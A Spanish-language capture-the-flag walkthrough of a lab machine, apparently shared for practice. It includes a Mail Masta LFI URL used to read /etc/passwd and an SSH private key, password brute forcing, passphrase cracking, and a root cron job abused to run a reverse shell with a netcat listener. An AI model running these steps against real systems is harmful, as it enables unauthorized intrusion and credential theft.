# King Of Hacker

**Objetivo:** Comprometer la máquina y encontrar las [Flags](Flags.md), además de obtener acceso **root/administrador**

## 📶 Reconocimiento
Descubrimiento de Host con **arp-scan**  
  
- IP de maquina objetivo: **192.168.100.134**

También podemos realizar un descubrimiento del host haciendo uso del comando:
```bash
nmap -sn ip
```

## 🔍 Escaneo de puertos con Nmap
Realizamos un escaneo completo de puertos.  
```bash
sudo nmap -sSVC -Pn -n --open --min-rate 5000 -p- 192.168.100.134
```
  
**Explicación de parámetros:**  
- `-sSVC`: Realiza el escaneo **SYN**, detecta versiones `-sV` y ejecuta scripts básicos `-sC`
- `-Pn`: Omite la detección de host (asume que el host esta vivo)
- `-n`: No aplica resolución **DNS**
- `--open`: Muestra solo puertos con estado **open**
- `--min-rate 5000`: Acelera el escaneo enviando paquetes más rápido
- `-p-`: Escanea todos los **65535** puertos

**Hallazgos:**
- Puerto **22/tcp**, Servicio: **SSH**, Versión: **tcpwrapped**
- Puerto **80/tcp**, Servicio: **HTTP**, Versión: **Apache/2.4.25 (Debian)**
- Puerto **139/tcp**, Servicio: **NetBIOS-SSN**, Versión: **Servicio SMB**
- Puerto **445/tcp**, Servicio: **Microsoft-DS**, Versión: **Servicio SMB**

## 🌐 Análisis del Servicio Web (Puerto 80)
Accedemos mediante el navegador a la dirección http://192.168.100.134 para inspeccionar el contenido del servidor web.  
  
**Observaciones:**  
- No se observan formularios, paneles de login o funcionalidades interactivas evidentes.
- El sitio parece ser una página informativa sin contenido dinámico aparente.
### Enumeración de Directorios con Gobuster
Ante la falta de funcionalidades visibles, procedemos a realizar un descubrimiento de directorios y archivos ocultos mediante fuerza bruta con **Gobuster**.

**Comando utilizado:**  
```bash
gobuster dir -u http://192.168.100.134 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
```
**Explicación de parámetros:**  
- `dir`: Modo directorios
- `-u`: URL objetivo
- `-w`: Diccionario a utilizar
- `-t 50`: 50 hilos para acelerar el proceso

**Resultado:**  
- No se encontraron directorios o archivos adicionales.
- El servidor web parece estar configurado únicamente con la página principal estática.
### Próximos pasos
Dado que el puerto **80** no ofrece más vectores de ataque directos, redirigimos nuestra atención a los otros servicios identificados durante el escaneo.  

- Puerto **139/445** **(SMB):** Enumeración de recursos compartidos y posibles vulnerabilidades
- Puerto **22** **SSH:**  Aunque aparece como **tcpwrapped**, podría ser útil si obtenemos credenciales más adelante

## 🔍 Enumeración de Servicios SMB
Dado que el puerto **80** no proporcionó vectores de ataque, dirigimos nuestra atención a los servicios **SMB** corriendo en los puertos **139** y **445**.
### Enumeración con enum4linux
Utilizamos  **enum4linux**, una herramienta diseñada específicamente para enumerar información de sistemas **Windows** y **Samba**.  

**Comando utilizado:**
```bash
enum4linux 192.168.100.134
```
### Hallazgo 1: Recurso compartido (Share)
  
- Recurso: **print$**, Tipo: **Disk**, Acceso: **?**, Descripción: **Controladores de impresora**
- Recurso: **kho**, Tipo: **Disk**, Acceso: **Denegado**, Descripción: **kho personal share**
- Recurso: **anonymous**, Tipo: **Disk**, Acceso: **OK (Lectura)**, Descripción: **Recurso anónimo sin contraseña**
- Recurso: **IPC$**, Tipo: **IPC**, Acceso: **-**, Descripción: **Comunicación entre procesos (Samba 4.5.16 Debian)**

**Hallazgo crítico:** El recurso **anonymous** es accesible sin autenticación y permite listar y leer archivos.
### Hallazgo 2: Enumeración de Usuarios (SID de Windows / Samba)
  
**Usuarios locales del dominio Samba**
- `KHO/nobody` (SID S-1-5-21-...-501)
- `KHO/kho` (SID S-1-5-21-...-1000)
### Hallazgo 3: Enumeración de Usuarios del Sistema (SID Unix)
  
**Usuarios reales del sistema operativo:**
- `kho` (UID 1000)
- `jpgaultier` (UID 1001)

## ⚔️ Explotación - Acceso al Recurso Compartido (SMB)
### Acceso al Recurso Anonymous
Una vez identificado el recurso **anonymous** como accesible sin autenticación, procedemos a conectarnos utilizando **smbclient**.

**Comando utilizado:**
```bash
smbclient //192.168.100.134/anonymous -N
```
**Explicación de parámetros:**
- `-N`: Indica que no se solicitará contraseña (conexión anónima)

  
**Resultado:**
- Conexión exitosa al recurso compartido
- Encontramos un único archivo: `ojo.txt`

**Contenido del archivo:**  
  

## ⚔️ Explotación - Acceso a Recurso Privado de Usuario
### Fuerza Bruta con Contraseñas Comunes  
Basándonos en la pista obtenida del archivo **ojo.txt**, probamos las contraseñas débiles mencionadas para acceder al recurso protegido **kho** utilizando **smbclient**.  
**Comando utilizado:**
```bash
smbclient //192.168.100.134/kho -U kho
```
**Se solicita la contraseña, probamos con:**
- ❌ `abc123` → Acceso denegado
- ❌ `123321` → Acceso denegado
- ✅ `qwerty` → **¡Acceso concedido!**

  
**Resultado:**
- Conexión exitosa al recurso privado
- Encontramos un único archivo: `todo.txt`

**Contenido del archivo:**  
  
**Decodificando las pistas:**

| Pista                                           | Interpretación                                                                                                                              |
| ----------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------- |
| **Agregar `kho.local` al archivo hosts**        | Existe un virtual host en el servidor web que debemos resolver localmente.                                                                  |
| **Trabajar en /Th3K1nG**                        | Posible directorio o ruta dentro del servidor web que debemos explorar.                                                                     |
| **Ya antes explotaron un LFI**                  | **¡Vulnerabilidad confirmada!** El servidor ha sido vulnerable a **Local File Inclusion (LFI)** en el pasado, probablemente sigue siéndolo. |
| **Ten cuidado donde dejas tus llaves privadas** | Posible existencia de claves **SSH** en ubicaciones predecibles dentro del sistema.                                                         |
### Configuración del Virtual Host
Siguiendo la pista, agregamos `kho.local` a nuestro archivo `/etc/hosts`.
```bash
sudo nano /etc/hosts
```
Añadimos la linea:
```bash
192.168.100.134 kho.local
```

## 🌐 Exploración Web - Nueva URL
### Nuevo Vector de Ataque
Ahora tenemos un nuevo vector de ataque claro:
1. **Acceder al virtual host:** `http://kho.local/Th3K1nG`.
2. **Buscar vulnerabilidades LFI** en la aplicación web.
3. **Utilizar LFI para:**
	- Leer archivos sensibles del sistema
	- Posiblemente encontrar las **llaves privadas** mencionadas

  
**Observaciones:**
- La página mantiene una estética similar al sitio anterior
- El eslogan **"THE KING OF HACKERS"** y **"Destronando al Rey"** sugiere un tema de **CTF/máquina de práctica**
- La estructura del sitio comienza a revelar pistas sobre su naturaleza

### Enumeración de la Estructura Web
  
**Hallazgos:**
- Enlace **"Log in"** en la sección Meta.
### Identificación de CMS WordPress
Al hacer click en el enlace **Log in**, somos redirigidos a: `http://kho.local/Th3K1nG/wp-login.php?loggedout=true`  
  
**Confirmación:** El sitio está ejecutando en **WordPress**, uno de los **CMS** más populares y frecuentemente objetivo de ataques.

## ⚔️ Explotación -  WordPress y LFI
### Enumeración con WPScan
Iniciamos la enumeración del sitio **WordPress** para identificar usuarios y posibles vulnerabilidades con **wpscan**.
```bash
wpscan --url http://kho.local/Th3K1nG --passwords /usr/share/wordlists/rockyou.txt
```
  
### Descubrimiento de Plugins
Durante la enumeración, identificamos plugins instalados que llaman la atención: **mail-masta** y **site-editor**
  
**Confirmación:** La pista del archivo `todo.txt` mencionaba explotación previa **LFI** y ahora tenemos la vulnerabilidad concreta.
### Fuerza Bruta de Credenciales con WPScan
  
✅ **Flag CTF:** Esta combinación de `nuevoadmin:spongebob` es una de las banderas de la máquina.


A pesar del acceso exitoso como **nuevoadmin**, el panel no revela información sensible ni funcionalidades críticas aparentemente. El usuario parece tener privilegios limitados.  
### Descubrimiento crítico: Plugin Vulnerable 
Investigamos sus vulnerabilidades conocidas.
```bash
searchsploit mail masta
```
  
**Confirmación:** El plugin **mail masta** es vulnerable a **Local File Inclusion (LFI)** Esto coincide perfectamente con la pista del archivo `todo.txt`.  
**Descargamos el exploit para analizarlo:**
```bash
searchsploit -m 40290
```
### Análisis del Plugin Mail Masta y LFI
El exploit `40290.txt` describe una vulnerabilidad **LFI** en el plugin **Mail Masta**. La ruta vulnerable es:
```bash
http://server/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```
  
### Resultado de la Explotacion LFI
  
**Confirmación:**
- Usuario del Sistema: `kho` (UID 1000) y `jpgaultier` (UID 1001)
- Coinciden con la enumeración previa de **enum4linux**

## ⚔️ Explotación - De LFI a Acceso SSH (Parte 1)
### Descubrimiento de Clave Privada SSH
Recordando la pista del archivo `todo.txt`: *"Ten cuidado donde dejas tus llaves privadas"*, utilizamos la vulnerabilidad **LFI** para intentar leer la clave **SSH** del usuario **kho**.
```bash
http://kho.local/Th3K1nG/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/home/kho/.ssh/id_rsa
```
### Obtención de la Clave Privada
Al acceder a esta **URL** el servidor nos devuelve el contenido de la clave privada **RSA** del usuario **kho**.
  
## ⚔️ Explotación - De LFI a Acceso SSH (Parte 2)
### Preparación de la Clave para conexión SSH
Una vez obtenida la clave privada mediante **LFI**, la guardamos en un archivo de manera local:
```bash
nano id_rsa
# Pegamos el contenido de la clave
```
### Error Común: Permisos Incorrectos en Clave Privada
Al intentar conectarnos por primera vez, nos encontramos con un error de permisos:
```bash
ssh -i id_rsa kho@192.168.100.134
```
  
**Explicación del error:**
- **SSH** es extremadamente estricto con los permisos de las claves privadas.
- Si cualquier otro usuario del sistema puede leer el archivo, **SSH** se niega a usarlo por seguridad.
- Nuestro archivo tiene permisos **664** (lectura para grupos y otros), lo cual es inseguro.
### Solución: Corregir Permisos de la Clave
Ajustamos los permisos para que solo el propietario pueda leer el archivo:
```bash
chmod 600 id_rsa
```
**Explicación:**
- `6` (Lectura y escritura para el propietario)
- `0` (Sin permisos para el grupo)
- `0` (Sin permisos para otros)
### Conexión Exitosa con la clave
Una vez corregidos los permisos, intentamos nuevamente la conexión:
```bash
ssh -i id_rsa kho@192.168.100.134
```
  
**Resultado:**
- ✅ El error de permisos ha desaparecido
- ✅ **SSH** ahora acepta la clave
- ⚠️ Se solicita una **frase de paso (passphrase)**
### Descifrando la Frase de Paso con John The Ripper
La clave esta protegida con una frase de paso. Utilizamos **ssh2john** para convertir la clave en un formato que **John** pueda procesar:
```bash
ssh2john id_rsa > hash
```
  
**Resultado del cracking:**
- La frase de paso de la clave es: `xavior`.
### Conexión SSH Exitosa
Con la clave y la frase de paso descifrada, nos conectamos al servidor.
```bash
ssh -i id_rsa kho@192.168.100.134
# Ingresamos la frase de paso: xavior
```
  

## 🔍Enumeración Post-Explotación
### Enumeración Inicial del Sistema
Una vez con acceso como usuario **kho**, procedemos a enumerar el sistema en busca de vectores para escalar privilegios.
```bash
sudo -l
```
El comando `sudo` no está instalado en el sistema, descartando este vector de escalada.
### Búsqueda de binarios SUID
```bash
find / -perm -4000 2>/dev/null
```
  
Todos los binarios listados son los SUID estándar de un sistema **Debian/Ubuntu**. No se encuentran binarios inusuales o explotables para escalada de privilegios.
### Descubrimiento - Flag en Directorio Personal
Durante la exploración del directorio `home` de **kho**, encontramos un archivo `flag.txt`.  
  

✅ **Flag CTF:** Esta combinación de `flag{3xpl0it3d_by_jpgaultier_7a91b4}` es otra de las banderas de la máquina.

### Exploración del Directorio WordPress
Durante la exploración, accedemos al directorio donde esta alojado **WordPress**.
```bash
cd /var/www/html/Th3K1nG
```
  
**Hallazgos: Credenciales en:** `wp-config.php`  
El archivo `wp-config.php` contiene las credenciales de conexión a la base de datos de `WordPress`.

  

✅ **Flag CTF:** Esta combinación de `wordpress:password123` es otra de las banderas de la máquina.
### Exploración de la Base de Datos
Aunque la base de datos no contenía información adicional relevante para la escalada de privilegios, estas credenciales representan **flags** válidas de la máquina.

## 👑 Escalada de Privilegios - Cron Job Abusable
### Enumeración de Tareas  Programadas (Cron Jobs)
Continuando con la enumeración del sistema, revisamos las tareas programadas que podrían ejecutarse con privilegios elevados:
```bash
crontab -l
```
El usuario **kho** no tiene tareas **cron** personales, pero esto no descarta la existencia de tareas a nivel de sistema.
### Descubrimiento en /etc/cron.d
Exploramos el directorio `/etc/cron.d`, donde se almacenan tareas **cron** adicionales.  
  
**Hallazgo:** Existe un archivo llamado `kho` con permisos especiales.
### Análisis del Cron Job
Inspeccionamos el contenido del archivo `kho`
```bash
***** root /usr/local/bin/kho.sh
```
**Interpretación:**
- `*****`: Se ejecuta cada minuto
- `root`: Se ejecuta como **root**
- `/usr/local/bin/kho.sh`: Ejecuta el script ubicado en esta ruta

**Análisis del script:**
1. El script verifica si existe un archivo en **/tmp/kho**
2. Si el archivo existe, lo ejecuta como **bash** (como **root**, ya que el **cron job** corre como **root**)
3. Si el archivo no existe, no hace nada
### Verificación de Acceso a /tmp
Antes de continuar, verificamos que tenemos permisos de escritura en el directorio `/tmp`.
  
**Resultado:** el directorio `/tmp` es accesible y tenemos permisos para crear archivos.
### Explotación del Cron Job
#### Paso 1: Crear un script malicioso con reverse shell
Utilizamos [Reverse Shell Generator](https://www.revshells.com/) para generar un **payload** de **reverse shell**. Seleccionamos la opción **netcat** o **bash** y configuramos:
- **IP atacante:** `192.168.100.18`
- **Puerto:** `9001`
- Creamos el archivo `kho` en `/tmp` y guardamos el contenido del **payload** generado.
- Configuramos **listener** en la máquina atacante
```bash
nc -lvnp 9001
```
*Explicación de parámetros:*
- `-l`: Modo escucha
- `-v`: Modo verbose
- `-n`: Sin resolución **DNS**
- `-p 9001`: Puerto a la escucha

  
**Resultado:**  
El **cron job** se ejecuta cada minuto, así que esperamos aproximadamente 60 segundos.  
